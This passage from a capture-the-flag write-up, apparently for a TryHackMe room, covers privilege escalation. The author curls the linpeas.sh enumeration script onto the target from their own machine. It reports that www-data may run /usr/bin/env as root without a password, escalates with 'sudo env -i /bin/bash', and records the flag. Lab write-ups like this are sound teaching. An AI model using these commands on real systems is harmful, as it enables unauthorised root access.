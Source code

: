 Decided to use rlwrap so I can use the arrow keys, have command history as well.

Used curl to download linpeas.sh onto the machine:

curl http://10.8.82.167/linpeas.sh --output linpeas.sh

and then ran md5sum linpeas.sh to ensure it was the same file.

Ran linpeas, found this:

[...]
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands             
Matching Defaults entries for www-data on 4740acc06995:                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 4740acc06995:
    (root) NOPASSWD: /usr/bin/env
[...]

So www-data can run /usr/bin/env as root, without password.

According to wikipedia:

env is a shell command for Unix and Unix-like operating systems. It is used to either print a list of environment variables or run another utility in an altered environment without having to modify the currently existing environment.

So we could run sudo env -i /bin/bash, lets try that out:

![](images/2020-08-24-22-12-20.png)

and we have a root shell!

Flag3: THM{D1ff3r3nt_3nv1ronments_874112}

Found by navigating into the root folder.

![](images/2020-08-24-22-13-03.png)
